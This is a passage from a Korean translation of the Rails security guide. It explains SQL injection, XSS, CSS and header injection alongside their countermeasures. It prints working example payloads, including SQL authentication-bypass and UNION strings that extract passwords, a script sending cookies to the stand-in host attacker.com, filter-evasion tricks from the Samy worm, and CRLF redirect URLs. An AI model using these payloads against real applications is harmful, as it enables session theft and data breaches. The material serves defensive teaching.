두 개의 '-'가 어미에 추가되면 이후에 추가되는 쿼리가 모두 주석으로 간주되어 실행되지 않습니다. 이 때문에 projects 테이블에 존재하는 모든 레코드를 가져오게 됩니다. 이들은 일반 사용자들로부터는 참조할 수 없는 데이터들이며, 쿼리의 모든 조건이 true가 되어버리기 때문에 발생합니다.
7.2.2 인증 우회하기
웹 애플리케이션에는 어떤 형태로든 접근을 제어하고 있는 것이 일반적입니다. 사용자가 로그인 정보를 입력하면 웹 애플리케이션은 사용자 테이블에서 등록되어 있는 레코드와 매칭하는지를 확인합니다. 기존의 레코드와 매칭하는 경우 애플리케이션은 접근을 허가합니다. 하지만 공격자가 SQL인젝션을 사용하는 것으로 그 인증을 우회할 가능성이 있습니다. 아래는 Rails에서 발생할 수 있는 전형적인 데이터베이스 쿼리입니다. 사용자가 입력한 로그인 정보와 매칭하는 User 테이블 상의 첫번째 레코드를 반환합니다.
User.first("login = '#{params[:name]}' AND password = '#{params[:password]}'")
여기에서 공격자가 "' OR '1'='1"라는 문자열을 이름란에 입력하고 "' OR '2'>'1"를 비밀번호 필드에 입력하게 되면 아래와 같은 쿼리가 생성됩니다.
SELECT * FROM users WHERE login = '' OR '1'='1' AND password = '' OR '2'>'1' LIMIT 1
매칭하는 첫번째 레코드가 이 쿼리에 의해서 반환되고, 사용자가 접근할 수 있게 됩니다.
7.2.3 부정한 데이터 접근
UNION문은 2개의 SQL 쿼리를 연결하여 하나의 합으로 만들어 데이터를 반환합니다. 공격자는 이를 통해서 데이터베이스로부터 임의의 데이터를 읽어올 수 있습니다. 위의 예제를 다시 활용해보죠.
Project.where("name = '#{params[:name]}'")
여기에서 UNION 문을 사용하여 아래의 문자열을 주입했다고 해봅시다.
') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --
결과, 아래의 SQL이 생성됩니다.
SELECT * FROM projects WHERE (name = '') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --'
이 쿼리로 얻을 수 있는 것은 프로젝트 리스트가 아닌, 사용자 이름과 비밀번호 리스트입니다. 만약 데이터베이스 상의 비밀번호가 암호화되어있다면 최악의 상황은 피할 수 있을 겁니다. 한편, 공격자에게 있어서 불편한 점은 2개의 쿼리가 반환하는 컬럼수가 같아야 한다는 점입니다. 이 공격 문자열에서는 이를 위해 두번째 쿼리에 '1'을 넣습니다. 이 컬럼들은 항상 1이 되기 때문에 첫번째 쿼리의 컬럼 수와 일치시킬 수 있습니다.
마찬가지로 두번째 쿼리에서는 AS를 사용해서 컬럼 이름을 변경하고 있습니다. 이를 통해서 사용자 테이블에서 가져온 값을 웹 애플리케이션에서 볼 수 있습니다. 반드시 Rails를 적어도 2.1.1로 업데이트해주세요.
7.2.4 대책
Ruby on Rails에는 특수한 SQL 문자를 필터링하는 기능이 내장되어 있습니다. ', ", NULL, 개행 등을 잘라냅니다. Model.find(id)나Model.find_by_attr(param)에 대해서는 이 대응책이 이미 적용되어 있습니다. 단 SQL 조각, 특히 조건절 (where("...")), connection.execute() 또는 Model.find_by_sql() 메소드에 대해서는 직접 이스케이프를 해줘야합니다.
조건 옵션에 직접 문자열을 넘기지 않고, 아래와 같이 배열을 넘기면 문제가 있는 문자열을 필터링할 수도 있습니다.
Model.where("login = ? AND password = ?", entered_user_name, entered_password).first
위에서 볼 수 있듯, 배열의 첫번째 부분이 조건절로 되어 있으며, 그 중에 '?'가 포함되어 있습니다. 필터링될 변수 값들은 배열 후반에 위치해 있으며, 각각 순서대로 쿼리의 물음표에 치환됩니다. 해시를 넘겨도 같은 결과를 얻을 수 있습니다.
Model.where(login: entered_user_name, password: entered_password).first
모델의 인스턴스에서는 배열 또는 해시만을 사용할 수 있습니다. 다른 장소에서 sanitize_sql()를 쓸 수도 있습니다. SQL에서 외부의 문자열을 필터링하지 않고 사용하는 것은 보안상에 중대한 위험을 초래할 가능성이 있다는 점을 평소에도 항상 기억하도록 합시다.
7.3 크로스 사이트 스크립팅(XSS)
XSS는 가장 많이 발생하는 웹 보안상의 취약점이며, 한번 발생하면 치명적인 피해가 발생할 가능성이 있습니다. XSS를 사용한 악의있는 공격이 발생하면, 클라이언트 쪽의 컴퓨터에 실행가능한 코드가 주입되고 맙니다. Rails에는 이러한 공격을 피하기 위한 헬퍼 메소드가 준비되어 있습니다.
7.3.1 공격점
공격점(entry point)이란, 취약한 URL 또는 파라미터를 의미합니다.
공격점으로 가장 자주 사용되는 것은 메시지 업로드, 사용자 덧글, 방명록 등입니다만 프로젝트 제목이나 문서명, 검색결과 페이지등에서도 마찬가지로 취약점을 가지고 있는 경우가 있었습니다. 사용자가 데이터를 입력가능한 곳은 어디든 공격점이 될 수 있는 것입니다. 단 공격자가 데이터를 입력하는 것이 웹사이트 상의 입력 폼일거라고 단정할 수는 없습니다. URL에 포함되어있는 파라미터, URL에 직접 포함되어 있지 않지만 사용가능한 '숨어있는' 파라미터, URL에 포함되지 않는 내부의 파라미터는 어디에서든 공격자가 입력할 가능성이 있습니다. 공격자가 모든 트래픽을 감시하고 있을 가능성을 항상 염두해둘 필요가 있습니다. Live HTTP 헤더 Firefox 플러그인와 같은 애플리케이션이나 클라이언트 프록시는 요청을 쉽게 변조할 수 있게 합니다.
XSS 공격은 다음과 같이 이루어집니다. 공격자가 어떤 코드를 웹 애플리케이션에 주입하고 나중에 타겟의 웹 페이지에 보입니다. 많은 XSS의 예시에서는 단순히 경고 상자를 표시할 뿐입니다만, 실제 XSS 공격은 더 무섭습니다. XSS를 사용하는 것으로 cookie를 훔치거나, 세션을 탈취, 사용자를 가짜 사이트로 유인하여 공격자의 이익이 되는 광고를 보여준다든가, 웹 사이트의 요소를 바꿔치기하여 사용자 정보를 훔치거나, 웹 브라우저의 보안 취약점을 통해서 악의 있는 소프트웨어를 설치할 수도 있습니다.
2007년 후반 Mozilla 브라우저에서 88개, Safari에서 22개, IE에서 18개, Opera에서 12개의 취약점이 보고되었습니다. Symantec Global Internet Security threat report에서는 2007년 후반에 브라우저의 플러그인에서 239개의 취약점이 보고되어 있습니다. Mpack은 가장 활발하고, 최신의 공격옹 프레임워크로, 이러한 취약점을 사용하고 있습니다. 범죄적인 해커들에게는 웹 애플리케이션 프레임워크의 SQL 인젝션 취약점을 공격하거나, 테이블의 컬럼에 악의있는 코드를 주입하는 것은 무척 매력적일 것입니다. 2008년 4월에는 510,000개 이상의 웹 사이트가 이 방법으로 해킹당해서, 영국 정부, 국제연합 등의 중요한 사이트가 피해를 입었습니다.
비교적 새롭고 흔하지 않은 진입 포인트로는 배너 광고가 있습니다. 2008년 초반에 MySpace나 Excite와 같은 유명한 사이트들의 배너 광고에 멀웨어 코드가 등장한 적이 있었습니다. Trend Micro를 참고하세요.
7.3.2 HTML/JavaScript 주입
XSS 공격에 자주 쓰이는 언어는 말할 필요도 없이 클라이언트 쪽에서 가장 보급되어 있는 언어인 JavaScript이며, 가끔 HTML을 조합하여 공격에 사용됩니다. 공격을 피하기 위해서는 사용자의 입력을 이스케이프할 필요가 있습니다.
XSS를 확인하는 가장 간단한 테스트를 소개하겠습니다.
<script>alert('Hello');</script>
이 JavaScript 코드를 실행하면, 경고 상자가 하나 추가됩니다. 다음 예제에서는 겉보기에 동작은 동일합니다만 일반적으로는 있을 수 없는 장소에 코드가 포함되어 있습니다.
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
7.3.2.1 Cookie 훔치기
앞의 예제에서는 아무 피해도 발생하지 않으므로 이번에는 공격자가 사용자의 쿠키를 훔치는 방법을 소개합니다(공격자는 이를 사용해서 사용자의 세션을 탈취합니다). JavaScript에서는 document.cookie 프로퍼티를 사용해서 문서의 cookie를 읽어옵니다. JavaScript에서는 동일 도메인 원칙이 강제적으로 적용됩니다. 이것은 다른 도메인에서 전송된 스크립트로부터 cookie에 접근하지 못하도록 만드는 원칙입니다. document.cookie 프로퍼티에는 생성된 웹서버의 cookie가 저장되어 있습니다. 하지만 HTML 문서에 직접 코드를 주입하게 되면(XSS에 의해서 이러한 상황이 발생할 수 있습니다), 이 프로퍼티를 읽을 수 있게 됩니다. 이 코드를 자신의 웹 애플리케이션의 적당한 곳에 넣어두면, 그 페이지에 포함되어 있는 자신의 cookie를 확인할 수 있을 겁니다.
<script>document.write(document.cookie);</script>
물론 공격자의 입장에서 보자면 사용자 본인이 자신의 cookie를 확인해봐야 아무런 의미도 없습니다. 다음 예시에서는 http://www.attacker.com/라는 URL으로부터 이미지와 cookie를 읽어옵니다. 말할 필요도 없습니다만, 이 URL은 실제로 존재하지 않으므로 브라우저에서는 아무것도 표시되지 않습니다(역주: 현재는 도메인 판매상이 이 도메인을 가지고 있습니다). 단 공격자는 웹 서버의 접근 로그를 확인하여 사용자의 쿠키를 확인할 수 있습니다.
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
www.attacker.com 사이트의 로그 파일에 다음과 같은 내용이 저장됩니다.
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
이 공격을 어느 정도 경감시키기 위해서는 httpOnly 플래그를 cookie에 추가하세요. 이를 통해서 JavaScript를 사용하여 document.cookie를 읽을 수 없게 됩니다. HTTP only cookie는 IE v6.SP1, Firefox v2.0.0.5와 Opera 9.5, Safari 4, Chrome 1.0.154 이상에서 사용가능합니다. 단 WebTV나 Mac용 IC5.5등의 오래된 브라우저들은 페이지를 읽어오지 못하는 문제가 있습니다. 그리고 Ajax를 사용하면 cookie가 확인가능해지는다는 점도 주의해주세요.
7.3.2.2 웹페이지의 파손
웹페이지를 파손하는것으로 가짜 정보를 표시하거나 사용자가 공격자가 만든 가짜 사이트로 유도하여 cookie나 로그인 정보등의 중요한 데이터를 훔칠 수 있는 다양한 공격들이 가능해집니다. 가장 많은 방법은 iframe을 사용해서 외부의 코드를 웹 페이지에 포함하는 것입니다.
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
이 코드를 통해서 외부에 있는 어떤 HTML이나 JavaScript 파일이 불러와지고, 웹사이트의 일부로서 삽입됩니다. 이 iframe은 Mpack 공격 프레임워크를 사용하여 이탈리아에 어떤 웹사이트에 대한 공격에 실제로 활용되었습니다. Mpack은 웹브라우저의 보안 취약점을 통하여 악의있는 소프트웨어를 설치하려 시도합니다. 그리고 그 공격 성공률은 50%에 달합니다.
더욱 전문적인 공격에 대해서는 웹사이트 전체를 가리거나, 로그인 폼을 표시하는 등의 방법들이 있습니다. 이것들은 원래 사이트와 겉보기에는 동일합니다만, 입력된 사용자 이름과 비밀번호가 비밀리에 공격자의 사이트로 전송됩니다. 또는 CSS나 JavaScript를 사용하여 웹애플리케이션의 실제 링크를 숨기고 다른 링크를 표시하여 사용자를 가짜 사이트로 리다이렉트시키는 방법도 있습니다.
Reflected injection 공격도 동일한 방식입니다. 이는 공격 스크립트를 URL에 긴 문자열 형태로 넘깁니다. 특히 검색 폼에서 사용 되는 경우가 많으며, 이 공격의 결과로 검색에 실패하게 됩니다. 다음 페이지 링크에서는 '조지 부시가 9살의 남자아이를 의장으로 임명'이라고 쓰여진 페이지가 있었습니다.
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1--> <script src=http://www.securitylab.ru/test/sc.js></script><!--
7.3.3 대책
악의 있는 입력을 필터링하는 것은 무척 중요합니다. 웹 애플리케이션의 출력을 이스케이프 할 때에도 마찬가지입니다.
특히 XSS의 경우 블랙리스트가 아닌 화이트리스트에 기반한 입력 필터링을 하는것이 가장 중요합니다. 화이트리스트 필터링에서는 특정 값만이 허가되며, 그 이외의 값은 모두 거부됩니다. 블랙리스트를 사용하는 한, 이후에 절대로 문제가 발생하게 됩니다.
사용자의 입력으로부터 'script'라는 문자열을 제거하기 위해서 사용한 블랙리스트가 있다고 가정합시다. 그렇다면 공격자는 '<scrscriptipt>'라는 문자열을 입력할 겁니다. 이 문자열이 필터링되면 '<script>'라는 문자가 남습니다. 이전에 Rails의 strip_tags(), strip_links(), sanitize() 메소드에서는 블랙리스트를 사용한 접근을 하고 있었습니다. 따라서, 그 당시에는 아래와 같은 공격이 가능했습니다.
strip_tags("some<<b>script>alert('hello')<</b>/script>")
필터로부터 반환되는 '"some<script>alert('hello')</script>'라는 문자열의 공격능력은 그대로 유지되고 있습니다. 그러므로 화이트리스트를 사용한 필터링이 좋으며, 이는 Rails 2의 sanitize 메소드에서부터 사용되고 있습니다.
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p) s = sanitize(user_input, tags: tags, attributes: %w(href title))
이 방법이라면 지정된 태그만을 허가할 수 있으므로 어떤 공격이나 악의있는 태그에 대해서도 필터가 문제없이 작동하게 됩니다.
2단계로서 최대한 많은 웹 애플리케이션의 출력을 이스케이프하는 것이 좋습니다. 이는 특히, 사용자 입력 시점에서 필터링되지 않은 문자열이 웹 화면에 다시 표시되는 경우에 유효합니다. escapeHTML() (또는 별명인 h()) 메소드를 사용해서 HTML 입력 문자 '&' '"' '<' '>'를 무해한 HTML 형식(&, ", <, >)으로 치환합니다. 프로그래머가 이 작업을 빼먹을 가능성은 얼마든지 존재하므로 SafeErb 플러그인을 사용하는 것을 권장합니다. SafeErb는 외부에서 입력받은 문자열을 이스케이프하라고 알려줍니다.
7.3.3.1 공격의 난독화와 인코딩 주입
이전의 네트워크 트래픽은 서구문화권에서는 알파벳이 대부분이었습니다만, 현재는 그 이외의 언어를 전달하기 위해 Unicode 등의 새로운 인코딩 방식이 사용되고 있습니다. 하지만 이것은 웹 애플리케이션에게 있어서 새로운 위협이 될 수 있습니다. 다른 코드로 인코딩 된 코드에 브라우저에서는 처리가능하지만 서버에서는 처리되지 않는 악의있는 코드가 숨어있을 수도 있기 때문입니다. UTF-8를 사용하는 공격 방법을 예로 들어보겠습니다.
<IMG SRC=javascript:a lert('XSS')>
이 예제를 실행하면 메시지 상자가 나타납니다. 또한 이는 위의 sanitize() 필터로 막을 수 있습니다. Hackvertor은 문자열의 난독화와 인코딩을 실행하는 툴로, '적을 알기' 위해서는 최적의 도구입니다. Rails의 sanitize() 메소드는 이러한 인코딩 공격을 이해하고 잘 막아냅니다.
7.3.4 실제 공격 사례
최근에 웹 애플리케이션에 대한 공격을 이해하기 위해서 실졔 사례를 소개합니다.
다음은 Js.Yamanner@m Yahoo! Mail 웜으로부터 발췌했습니다. 이 공격은 2006년 6월 11일에 발생했으며, 웹 메일 인터페이스를 사용하는 웜의 첫번째 사례입니다.
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
target=""onload="var http_request = false; var Email = '';
var IDList = ''; var CRumb = ''; function makeRequest(url, Func, Method,Param) { ...
이 웜은 Yahoo의 HTML/JavaScript 필터의 틈을 파고들었습니다. 이 필터는 원래 JavaScript가 포함될 가능성이 있는 target 속성과 onload 속성을 모두 필터링하게 되어 있었습니다. 하지만 안타깝게도 이 필터는 한번밖에 실행되지 않았기 때문에 웜이 포함되어있는 onload 속성이 제거되지 않고 그대로 남아있는 상황이 발생했습니다. 이 사례로부터 블랙리스트 필터가 완벽하게 동작할 일은 영원히 있을 수 없다는 것, 그리고 HTML/JavaScript를 웹애플리케이션에서 허용하는것이 얼마나 어려운 일인지를 이해하셨을것이라고 생각합니다.
webmail 웜의 이론상의 사례로서 Nduja가 있습니다. 자세한 설명은 Rosario Valotta의 논문을 참조해주세요. 어느 webmail 원도 이메일 주소를 수집하는 것을 목적으로 가지고 있으며 악의있는 해커가 불법으로 수입을 얻는데에 사용됩니다.
2006년 12월, 34,000명의 사용자 이름과 비밀번호가 MySpace을 목표로 한 피싱 공격에 의해서 유출되었습니다. 이 공격에서는 'login_home_index_html'이라는 이름의 프로파일 페이지를 통해서 이루어졌으며, 이 페이지는 실제와 동일하게 보였습니다. 실제으 웹 페이지는 특수한 HTML/CSS에 의해서 숨겨졌으며, 가짜 로그인 페이지가 대신 보였습니다.
MySpace의 Samy 웜에 대해서는 다음 CSS 주입에서 설명합니다.
7.4 CSS 주입
CSS 주입은 실제로는 JavaScript 주입이라고 말할 수 있습니다. 이것은 IE나 특정 버전의 Safari 등에서 CSS에 포함되어있는 JavaScript를 실행할 수 있기 때문입니다.
CSS 주입의 설명에 적절한 것은 그 유명한 MySpace Samy 웜입니다. 이 웜은 공격자인 Samy의 프로파일 페이지를 여는 것 만으로 자동적으로 Samy에게 친구 신청을 보냅니다. 별거 없어보이는 장난으로 보일 수도 있습니다만 Samy에게는 몇시간 사이에 수만건의 친구 요청이 집중되었으며, 그로 인해 MySpace에는 방대한 트래픽이 발생해 사이트가 일시적으로 오프라인이 되었습니다. 아래는 그 웜에 대한 기술적인 설명입니다.
MySpace에서는 많은 태그를 사용할 수 없게 해두었습니다만, CSS에 대한 제한은 없었으므로 웜을 만든 사람은 CSS에 다음과 같은 JavaScript 코드를 심었습니다.
<div style="background:url('javascript:alert(1)')">
여기서 스크립트의 실제 부분(페이로드)는 style 속성에 포함됩니다. 작은 따옴표와 큰 따옴표가 이미 사용되고 있으므로, 이 페이로드에서는 따옴표를 사용할 수 없습니다. 하지만 JavaScript에는 어떤 문자열도 코드로 실행할 수 있는 강력하면서도 위험한 eval() 함수가 존재합니다.
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
eval() 함수는 블랙 리스트 기반의 입력 필터를 사용하는 측의 입장에서는 악몽과도 같습니다. 이 함수가 사용되면, 예를 들어 아래와 같은 방식으로 'innerHTML'라는 단어를 style 속성에 숨겨둘 수 있기 때문입니다.
alert(eval('document.body.inne' + 'rHTML'));
다음 문제는 MySpace는 "javascript"라는 단어를 필터링하고 있었습니다만, 'java<NEWLINE>script'라고 작성하는 것으로 이 필터를 회피할 수 있었다는 점입니다.
<div id="mycode" expr="alert('hah!')" style="background:url('java
script:eval(document.all.mycode.expr)')">
또 다른 문제는 웜의 제작자가 CSRF 보안 토큰을 사용했다는 점입니다. 이것이 없었다면 친구 신청을 그렇게 무작위로 전송할 수 없었을 것입니다. 제작자는 사용자가 추가되기 직전에 페이지에 전송된 GET 요청의 결과를 해석해서 CSRF 토큰을 얻고 있었습니다.
최종적으로 4kb 크기의 웜이 생성되어 제작자는 자신의 프로파일 페이지에 이를 주입했습니다.
moz-binding라는 CSS 프로퍼티는 Firefox 등의 Gecko 기반의 브라우저에서는 CSS를 경유하여 JavaScript를 주입할 수 있다는 점이 판명되어 있습니다.
7.4.1 대책
반복해서 이야기합니다만, 블랙리스트에 의한 필터가 완벽하게 동작할 날은 오지 않습니다. 하지만 웹 애플리케이션에서 커스텀 CSS를 사용할 수 있다는 기능을 구현하는 것은 무척 드물기 때문에 여기에 대응하는 화이트리스트 CSS필터가 존재하는지는 모릅니다. 웹 애플리케이션의 색이나 이미지를 커스터마이즈할 수 있도록 만들고 싶다면 사용자에게 색이나 이미지를 선택하게 하고 웹 애플리케이션 쪽에서 CSS를 빌드하세요. 사용자가 CSS를 직접 변경할 수 없도록 해주세요. 반드시 필요하다면 화이트리스트 기반의 CSS필터로서 Rails의 sanitize() 메소드를 사용하세요.
7.5 텍스트타일 주입
보안을 이유로 HTML 이외의 텍스트 포맷을 제공하고 싶다면, 어떤 마크업 언어를 사용하여 그것을 서버측에서 HTML로 변환해주세요. RedCloth는 Ruby용으로 개발된 마크업 언어의 일종입니다만, 조심해서 사용하지 않으면 XSS 취약점을 만들수 있습니다.
예를 들어보겠습니다. RedCloth는 _test_라는 마크업을 <em>test<em>로 변환합니다. 이 안에 들어있는 텍스트는 이탤릭체로 나타납니다. 하지만 집필당시의 최신 버전인 3.0.4까지 RedCloth는 XSS에 대해서 취약했습니다. 이 심각한 문제를 피하기 위해서는 최신 버전인 4를 사용해주세요. 하지만 최신 버전에도 약간의 보안 문제가 가 존재하기 때문에 대응책으로는 완벽하지 않습니다. 버전 3.0.4의 예시를 들겠습니다.
RedCloth.new('<script>alert(1)</script>').to_html
# => "<script>alert(1)</script>"
텍스타일 프로세서에 의해서 생성되지 않은 HTML을 제거하기 위해서는 :filter_html 옵션을 사용해주세요.
RedCloth.new('<script>alert(1)</script>', [:filter_html]).to_html
# => "alert(1)"
단 이 메소드로는 사양 상 일부 HTML 태그(<a> 등)가 제거되지 않습니다.
RedCloth.new("<a href='javascript:alert(1)'>hello</a>", [:filter_html]).to_html
# => "<p><a href="javascript:alert(1)">hello</a></p>"
7.5.1 대책
XSS 대책은 이미 이야기한 바가 있으며, RedCloth는 반드시 화이트리스트 필터와 함께 사용해주세요.
7.6 Ajax 주입
보통 웹 애플리케이션을 개발할 때에 필요한 보안의 주의할 점과 동일하게, Ajax에 대해서도 그런 것들이 필요합니다. 단 한가지 예외가 있습니다. 페이지의 출력은 액션이 뷰를 랜더링하지 않을 경우에도 이스케이프가 되어야 합니다.
in_place_editor 플러그인이나 뷰를 랜더링하는 대신에 문자열을 돌려주는 액션등이 사용되고 있다면, 액션에서 돌려주는 값을 반드시 이스케이프해야합니다. 만약 XSS로 악의있는 문자열이 결과에 포함되면, 브라우저에서 표시되었을 때에 그 코드가 실행되고 맙니다. 모든 입력값은 h() 메소드를 사용해서 이스케이프해주세요.
7.7 커맨드 라인 주입
사용자가 입력한 데이터를 커맨드 라인의 옵션으로 사용할 경우에는 충분히 주의해주세요.
웹 애플리케이션이 OS 명령을 실행해야하는 경우, Ruby에는 exec(커맨드), syscall(커맨드), system(커맨드), 그리고 백포트라는 방법이 준비되어 있습니다. 이 커맨드를 전체, 또는 일부에 사용자의 입력이 사용되는 경우 특히 조심해야 합니다. 대부분의 쉘에서는 커맨드에 세미콜론(;)이나 파이프(|)를 추가하는 것으로 다른 명령을 간단하게 결합하여 사용할 수 있기 때문입니다.
대책으로는 커맨드 라인에 파라미터를 안전하게 넘길 수 있는 system(커맨드, 파라미터) 메소드를 사용하는 법이 있습니다.
system("/bin/echo","hello; rm *")
# "hello; rm *"를 실행해도 파일은 삭제되지 않음
7.8 헤더 주입
HTTP 헤더는 동적으로 생성되는 것이므로, 특정 상황에서는 헤더에 사용자의 입력이 사용되는 경우가 있습니다. 이를 사용하여 가짜 리다이렉트, XSS, HTTP 응답 분할 공격이 이루어질 가능성이 있습니다.
HTTP 요청 헤더에 사용되는 필드 중에는 Referer, User-Agent(클라이언트에서 사용중인 소프트웨어), Cookie 필드가 있습니다. 응답 헤더에는 예를 들어 상태 코드, Cookie 필드, Location 필드(리다이렉트 주소)가 있습니다. 이러한 필드 정보는 사용자 측에서 제공하는 것이며, 크게 힘들이지 않고 조작할 수 있습니다. 이러한 필드에서도 이스케이프를 수행해주세요. 이스케이프가 필요한 경우는 관리 화면에서 User-Agent 헤더를 확인하고 싶은 경우 등이 존재할 것입니다.
나아가 사용자 입력의 일부를 사용하는 응답 헤더를 생성할 때에 자신이 무엇을 하고 있는지 정확하게 이해하는 것이 중요합니다. 예를 들어 사용자를 특정 페이지로 리다이렉트를 하고 싶다고 합시다. 이 때, "referer" 필드를 사용하여, 특정 주소로 이동하도록 할 것입니다.
redirect_to params[:referer]
여기에서 Rails는 문자열을 Location 헤더에 넣고 302(리다이렉트) 상태 코드를 브라우저에 전송합니다. 악의가 있는 사용자가 이 때에 다음과 같은 조작을 할 수 있습니다.
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld
Rails 2.1.2보다 이전의 버전(Ruby도 마찬가지로)에 포함되는 버그 때문에 해커들은 아래와 같은 임의의 헤더를 주입할 수 있었습니다.
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld%0d%0aX-Header:+Hi! http://www.yourapplication.com/controller/action?referer=path/at/your/app%0d%0aLocation:+http://www.malicious.tld
이 URL에서 "%0d%0a"는 "\r\n"이 URL 인코딩 되어있는 것으로 Ruby에서의 CRLF 문자입니다. 2번째 예제에서는 2번째의 Location 헤더 필드가 첫번째의 값을 덮어쓰기 때문에 아래와 같은 HTTP 헤더가 생성됩니다.
HTTP/1.1 302 Moved Temporarily (...) Location: http://www.malicious.tld
다시 말해, 헤더 주입에 의한 공격방법은, 헤더에 CRLF문자를 주입하는 것이라고 할 수 있습니다. 가짜 리다이렉트로 어떤 것을 할 수 있을까요? 공격자는 사용자를 피싱 사이트로 리다이렉트하게 만들고(피싱 사이트의 겉모습은 본 사이트와 똑같게 만들어둡니다), 사용자를 다시 로그인하도록 유도하여, 그 로그인 정보를 공격자에게 전송할 수 있습니다. 또는, 피싱 사이트로부터 브라우저의 보안 취약점을 이용해 악의 있는 소프트웨어를 주입할 수도 있습니다.
Rails 2.1.2에서는 이러한 문자를 redirect_to 메소드의 Location 필드를 이스케이프하도록 변경되었습니다. 다른 헤더 필드에서 사용자 입력을 사용하는 경우에는, CRLF 이스케이프를 직접 처리해야한다는 점을 잊지 말아주세요.
7.8.1 응답 분할
헤더 주입이 실행가능해진 경우, 응답 분할(response splitting) 공격도 동시에 가능해질 가능성이 있습니다. HTTP 해더 부분 뒤에는 2개의 CRLF를 두어서 헤더 플록의 종료를 알리고, 그 뒤에 실제의 데이터(일반적으로 HTML)이 들어갑니다. 응답 분할이랑 헤더 필드에 2개의 CRLF를 주입하고, 그 뒤에 악의 있는 HTML을 넘기는 방법입니다. 이때의 응답은 아래와 같은 모습이 됩니다.
HTTP/1.1 302 Found [처음에는 일반적인 302 응답] Date: Tue, 12 Apr 2005 22:09:07 GMT Location: Content-Type: text/html HTTP/1.1 200 OK [여기부터 공격자에 의해 생성된 새 응답] Content-Type: text/html <html><font color=red>hey</font></html> [임의의 악의 있는 입력이 Keep-Alive: timeout=15, max=100 리다이렉트 주소로 표시됨] Connection: Keep-Alive Transfer-Encoding: chunked Content-Type: text/html
특정 상황에서는 이 악의 있는 HTML이 사용자의 브라우저에서 표시되는 경우가 있습니다. 단 아마도 Keep-Alive 접속이 유효하지 않은 경우에는 공격이 무효화됩니다. 그리고 많은 브라우저는 매번 접속을 새로 맺고 있습니다. 그렇다고 해서 Keep-Alive가 비활성화 되어있을거라는 점에 기대해서는 안됩니다. 이것은 어느 경우에 있어서도 심각한 버그이며, 이러한 헤더 주입(그리고 응답 분할) 취약점을 제거하기 위해서 Rails를 2.0.5 또는 2.1.2 버전 이상으로 업데이트 해주세요.
8 안전하지 않은 쿼리 생성하기
Rack이 쿼리 파라미터를 해석(parse)하는 방법과 Active Record가 파라미터를 해석하는 방법의 조합에 문제가 있어서, where 절이 IS NULL인 데이터베이스 쿼리를 본래의 의도와 반해서 생성하는 것이 가능합니다(CVE-2012-2660, CVE-2012-2694, 그리고 CVE-2013-0155)의 보안 문제에 대응하여 Rails의 동작을 기본으로 안전하게 만들기 위해서 deep_munge 메소드가 도입되었습니다.
deep_munge가 실행되지 않은 경우에 공격자에게 이용당할 가능성이 있는 취약한 코드를 예시로 들어보겠습니다.
unless params[:token].nil? user = User.find_by_token(params[:token]) user.reset_password! end
params[:token]이 [], [nil], [nil, nil, ...], ['foo', nil]중 하나인 경우 nil 체크를 통과함에도 불과하고, where 절이 IS NULL 또는 IN ('foo', NULL)이 되어서 SQL 쿼리에 추가되게 됩니다.
Rails를 안전하게 만들기 위해서 deep_munge 메소드는 일부의 값을 nil로 치환합니다. 요청에서 전송된 JSON 베이스의 파라미터가 어떤식으로 보이게 되는지 아래의 표를 확인해주세요.
| JSON | 파라미터 |
|---|---|
{ "person": null } |
{ :person => nil } |
{ "person": [] } |
{ :person => nil } |
{ "person": [null] } |
{ :person => nil } |
{ "person": [null, null, ...] } |
{ :person => nil } |
{ "person": ["foo", null] } |
{ :person => ["foo"] } |
위험도과 다룰때의 주의점을 잘 이해하고 있다면, deep_munge를 끄고 애플리케이션을 본래의 동작으로 되돌려도 좋습니다.
config.action_dispatch.perform_deep_munge = false
9 기본 헤더
Rails 애플리케이션이 전송하는 모든 HTTP 응답에는 아래와 같은 보안 헤더가 기본적으로 포함되어 있습니다.
config.action_dispatch.default_headers = {
'X-Frame-Options' => 'SAMEORIGIN',
'X-XSS-Protection' => '1; mode=block',
'X-Content-Type-Options' => 'nosniff'
}
이 기본 헤더값은 config/application.rb에서 변경할 수 있습니다.
config.action_dispatch.default_headers = {
'Header-Name' => 'Header-Value',
'X-Frame-Options' => 'DENY'
}
또는 헤더를 제거할 수도 있습니다.
config.action_dispatch.default_headers.clear
자주 사용도는 헤더 리스트는 다음과 같습니다.
- X-Frame-Options Rails에서는 기본으로 'SAMEORIGIN'이 지정되어 있습니다. - 동일한 도메인에서의 frame으로 여는 것을 허가합니다. 'DENY'를 지정하면 모든 frame 내에서의 사용이 불가능해집니다. 모든 웹 사이트에 대해서 frame 내 사용을 허가하기 위해서는 'ALLOWALL'로 설정하세요.
- X-XSS-Protection Rails 에서는 기본으로 '1; mode=block'이 지정되어 있습니다. - XSS 공격이 검출되었을 경우 XSS Auditor와 블록 페이지를 사용해주세요. XSS Auditor를 끄고 싶은 경우에는 '0;'으로 설정하세요(응답이 요청 파라미터에 스크립트가 포함되는 경우에도 유용합니다).
- X-Content-Type-Options _'nosniff'는 Rails에서 기본값입니다. - 파일의 MIME 형식을 브라우저에서 추측하지 못하도록 합니다.
- X-Content-Security-Policy 어떤 컨텐츠 타입을 허가할 것인지에 대해서 사이트를 제어할 수 있는 강력한 방법입니다.
- Access-Control-Allow-Origin Same Origin Policy 우회와 Cross-origin 요청을 허가합니다.
- Strict-Transport-Security 브라우저로부터 사이트에 접속할 때에 보안 접속인 경우에만 허가할지를 지정합니다.
10 이용 환경의 보안
